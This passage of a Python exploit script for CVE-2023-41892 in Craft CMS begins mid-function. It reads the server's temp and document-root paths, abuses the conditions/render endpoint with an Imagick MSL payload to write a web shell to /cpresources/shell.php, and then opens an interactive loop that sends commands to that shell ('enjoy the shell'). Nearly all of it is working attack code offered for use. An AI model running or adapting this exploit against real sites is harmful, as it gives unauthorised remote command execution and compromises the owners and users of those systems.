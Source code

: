         match1 = re.search(pattern1, response.text, re.DOTALL)
        match2 = re.search(pattern2, response.text, re.DOTALL)
    
        if match1 and match2:
            return match1.group(1), match2.group(1)
        else:
            print("Error: Could not find upload_tmp_dir or DOCUMENT_ROOT in the response.")
            return None, None
    
    def trigerImagick(tmpDir):
        data = {
            "action": "conditions/render",
            "configObject[class]": "craft\\elements\\conditions\\ElementCondition",
            "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmpDir + r'/php*"}}}'
        }
        response = requests.post(url, headers=headers, data=data)
    
    def shell(cmd):
        response = requests.get(url + "/cpresources/shell.php", params={"cmd": cmd})
        match = re.search(r'caption:(.*?)CAPTION', response.text, re.DOTALL)
    
        if match:
            extracted_text = match.group(1).strip()
            print(extracted_text)
        else:
            return None
        return extracted_text
    
    if __name__ == "__main__":
        if(len(sys.argv) != 2):
            print("Usage: python CVE-2023-41892.py <url>")
            exit()
        else:
            url = sys.argv[1]
            print("[-] Get temporary folder and document root ...")
            upload_tmp_dir, documentRoot = getTmpUploadDirAndDocumentRoot()
            tmpDir = "/tmp" if "no value" in upload_tmp_dir else upload_tmp_dir
            print("[-] Write payload to temporary file ...")
            try:
                writePayloadToTempFile(documentRoot)
            except requests.exceptions.ConnectionError as e:
                print("[-] Crash the php process and write temp file successfully")
    
            print("[-] Trigger imagick to write shell ...")
            try:
                trigerImagick(tmpDir)
            except:
                pass
    
            print("[-] Done, enjoy the shell")
            while True:
                cmd = input("$ ")
                shell(cmd)
    ```
    